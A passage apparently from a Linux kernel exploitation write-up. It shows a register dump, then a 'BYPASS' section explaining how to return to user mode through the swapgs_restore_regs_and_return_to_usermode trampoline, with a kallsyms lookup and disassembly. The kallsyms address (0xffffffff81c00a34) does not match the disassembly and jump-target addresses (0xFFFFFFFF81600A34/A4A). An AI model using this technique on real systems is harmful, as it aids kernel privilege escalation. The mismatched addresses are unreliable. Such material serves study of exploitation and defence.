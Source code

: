 ```
rdi            0x705820            7362592
rbp            0x1614000           0x1614000
rsp            0xfffffe0000002fd8  0xfffffe0000002fd8
r8             0x0                 0
r9             0x0                 0
r10            0x0                 0
r11            0x297               663
r12            0x1613ff0           23150576
r13            0x1                 1
r14            0x0                 0
r15            0x1                 1
rip            0xffffffff81c00ab2  0xffffffff81c00ab2
eflags         0x6                 [ IOPL=0 PF ]
cs             0x10                16
ss             0x0                 0
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
fs_base        0x705418            7361560
gs_base        0x0                 0
k_gs_base      0xffff88801f000000  -131391119425536
cr0            0x80050033          [ PG AM WP NE ET MP PE ]
cr2            0x1614ff0           23154672
cr3            0x1d947000          [ PDBR=14 PCID=0 ]
cr4            0x1006f0            [ SMEP OSXMMEXCPT OSFXSR PGE MCE PAE PSE ]
cr8            0x1                 1
efer           0xd01               [ NXE LMA LME SCE ]
```

BYPASS

1. There is no way to find a single `swapgs` instruction, so we may use the kernel function itself to switch from user mode and kernel mode cleanly.

Here comes the function swapgs_restore_regs_and_return_to_usermode()

```
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81c00a34 T swapgs_restore_regs_and_return_to_usermode
```

This function literally push and pop all info into and from stack and do `swapgs` and `iret`. We can jump to `0xFFFFFFFF81600A4A` and let the rest of the code itself help us switch gracefully.

```asm
.text:FFFFFFFF81600A34 41 5F                          pop     r15
.text:FFFFFFFF81600A36 41 5E                          pop     r14
.text:FFFFFFFF81600A38 41 5D                          pop     r13
.text:FFFFFFFF81600A3A 41 5C                          pop     r12
.text:FFFFFFFF81600A3C 5D                             pop     rbp
.text:FFFFFFFF81600A3D 5B                             pop     rbx
.text:FFFFFFFF81600A3E 41 5B                          pop     r11
.text:FFFFFFFF81600A40 41 5A                          pop     r10
.text:FFFFFFFF81600A42 41 59                          pop     r9
.text:FFFFFFFF81600A44 41 58                          pop     r8
.text:FFFFFFFF81600A46 58                             pop     rax
.text:FFFFFFFF81600A47 59                             pop     rcx
.text:FFFFFFFF81600A48 5A                             pop     rdx
.text:FFFFFFFF81600A49 5E                             pop     rsi
.text:FFFFFFFF81600A4A 48 89 E7                       mov     rdi, rsp # from here!
.text:FFFFFFFF81600A4D 65 48 8B 24 25+                mov     rsp, gs: 0x5004
.text:FFFFFFFF81600A56 FF 77 30                       push    qword ptr [rdi+30h]
.text:FFFFFFFF81600A59 FF 77 28                       push    qword ptr [rdi+28h]
.text:FFFFFFFF81600A5C FF 77 20                       push    qword ptr [rdi+20h]
.text:FFFFFFFF81600A5F FF 77 18                       push    qword ptr [rdi+18h]
```